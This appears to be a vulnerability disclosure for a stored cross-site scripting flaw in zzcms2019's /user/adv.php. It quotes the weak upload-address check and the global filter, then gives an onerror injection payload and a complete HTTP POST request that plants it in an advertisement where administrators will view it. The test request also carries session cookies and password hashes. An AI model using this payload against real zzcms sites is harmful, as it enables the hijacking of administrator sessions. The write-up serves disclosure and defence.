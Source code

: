 # /user/adv.php

Edition: zzcms2019 /user/adv.php

## 0x01 Vulnerability

Get the `modify` parameter with the `request` method
```
if ($action=="modify"){
    checkstr($img,"upload");//入库前查上传文件地址是否合格
    checkstr($oldimg,"upload");//入库前查上传文件地址是否合格
    query("update zzcms_textadv set adv='$adv',company='$company',advlink='$advlink',img='$img',passed=0 where username='".$_COOKIE["UserName"]."'");
```

Which is called vulnerable parameter `$img`

Enter the `checkstr($img,"upload");` function

```
function checkstr($str,$kind,$msg='',$back_url='back'){
    if ($str<>''){
        switch ($kind){
        ...
        case "upload";//用于引用网络图片地址和视频地址的上传页
        	if (strpos("gif|jpg|peg|png|bmp|flv|swf",strtolower(substr($str,-3)))===false){
        	showmsg($msg.$str."不支持的上传文件格式。支持的文件格式为（gif|jpg|png|bmp|flv|swf）",$back_url);
        	}
        	if (substr($str,0,4)<>"http" && $str<>"/image/nopic.gif"){
        		if (strpos($str,'/uploadfiles')===false){
        		showmsg($msg.$str."不支持的上传文件地址",$back_url);
        		}
        	}
        break;	
        }
    }
}
```

This function only judges the suffix name and the first four bits.
So we can construct payload.

```
http:' onerror=alert(1) alt='1.jpg
```
In this way, the detection of functions can be bypassed.

Although the global filter file is also loaded.`/inc/stopsqlin.php`

```
function zc_check($string){
	if(!is_array($string)){
		if(get_magic_quotes_gpc()){
	 	return htmlspecialchars(trim($string));
		}else{
		return addslashes(htmlspecialchars(trim($string)));
		}
	 }
	foreach($string as $k => $v) $string[$k] = zc_check($v);
	return $string;
}
	
if($_REQUEST){
	$_POST =zc_check($_POST);
	$_GET =zc_check($_GET);
	$_COOKIE =zc_check($_COOKIE);
	@extract($_POST);
	@extract($_GET);	
}
```

`htmlspecialchars` function does not escape single quotes by default.

So you can't defend against single quotation closure.

The complete package is as follows.

```
POST /user/adv.php?action=modify HTTP/1.1
Host: www.testzzcms.com
Content-Length: 200
Cache-Control: max-age=0
Origin: http://www.testzzcms.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 SE 2.X MetaSr 1.0
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://www.testzzcms.com/user/adv.php
Accept-Language: zh-CN,zh;q=0.8
Cookie: admin=admin; pass=21232f297a57a5a743894a0e4a801fc3; bdshare_firstime=1555068916100; PHPSESSID=70imo2hba2vg0b12n65rngv277; UserName=testxss; PassWord=19a811d71d1df1dd8ef14374949b4409; __tins__713776=%7B%22sid%22%3A%201556018030370%2C%20%22vd%22%3A%205%2C%20%22expires%22%3A%201556019863811%7D; __51cke__=; __51laig__=10
Connection: close

adv=%E6%B5%8B%E8%AF%95&advlink=%2Fzt%2Fshow-1.htm&company=%E6%B5%8B%E8%AF%95&oldimg=%2Fuploadfiles%2F2019-04%2F20190423195439950.jpg&img=http:1' onerror=alert(/xss/) alt='1.jpg&Submit22=%E4%BF%AE%E6%94%B9
```

When Administrators Access Advertisements -->Advertisements Users Apply for

![](./image/xss001.png)

He/She will be see a alert window which said /xss/

![](./image/xss002.png)

![](./image/xss003.jpg)